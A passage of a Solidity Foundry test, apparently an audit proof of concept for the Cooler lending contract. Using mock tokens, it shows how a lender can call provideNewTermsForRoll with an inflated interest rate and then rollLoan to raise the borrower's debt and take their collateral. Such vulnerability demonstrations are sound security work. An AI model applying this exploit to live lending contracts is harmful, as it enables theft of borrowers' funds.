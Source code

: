 ```solidity 
        // deal(address(debt), lender, MAX_DEBT);
        // deal(address(debt), others, MAX_DEBT);
        // deal(address(collateral), owner, MAX_COLLAT);
        // deal(address(collateral), others, MAX_COLLAT);

        collateral.mint(owner, COLLATERAL_AMOUNT);
        collateral.mint(lender, COLLATERAL_DIFFERENCE);
        debt.mint(lender, DEBT_AMOUNT);

        // mint the dept token to the owner to pay the interest
        uint256 interest = DEBT_AMOUNT;
        debt.mint(owner, INTEREST_AMOUNT);

        // Deploy system contracts
        coolerFactory = new CoolerFactory();
    }

    function testStealTheCollateralByLender() external {
        console2.log(
            "the balance of the collateral tokens for the OWNER befor the attack : ",
            collateral.balanceOf(owner),
            "       , the dept tokens ",
            debt.balanceOf(owner)
        );
        console2.log(
            "the balance of the collateral tokens for the LENDER befor the attack : ",
            collateral.balanceOf(lender),
            "     , the debt tokens: ",
            debt.balanceOf(lender)
        );
        console2.log("------------------------------------------------------------------------------------------------");
        vm.startPrank(owner);
        address cooler_ = coolerFactory.generateCooler(collateral, debt);
        collateral.approve(cooler_, COLLATERAL_AMOUNT);
        uint256 reqID = Cooler(cooler_).requestLoan(DEBT_AMOUNT, INTEREST_RATE, LOAN_TO_COLLATERAL, DURATION);

        vm.startPrank(lender);
        debt.approve(cooler_, DEBT_AMOUNT);
        uint256 loanId = Cooler(cooler_).clearRequest(reqID, true, false);
        // uint256 inter = (DEBT_AMOUNT * INTEREST_RATE * DURATION / 365 days / DECIMALS);
        // uint256 collateralDifference = inter * 10 ** 18 / LOAN_TO_COLLATERAL ;

        uint256 oldDebt = Cooler(cooler_).getLoan(loanId).amount;
        console2.log(
            "the old dept that the owner should pay befor the manipulation : ", Cooler(cooler_).getLoan(loanId).amount
        );

        // the lender all the function to provide the new terms
        // roll the loan with the same terms except the rate
        Cooler(cooler_).provideNewTermsForRoll(loanId, ATTACK_INTEREST_RATE, LOAN_TO_COLLATERAL, DURATION);

        // the lender call the function rollLoan and apply the new terms .
        // the lender send the new collateral and which is the accumelated (interest / loanToCollateral .

        collateral.approve(cooler_, COLLATERAL_DIFFERENCE);
        Cooler(cooler_).rollLoan(loanId);
        console2.log("the new dept that the owner should pay :", Cooler(cooler_).getLoan(loanId).amount);
```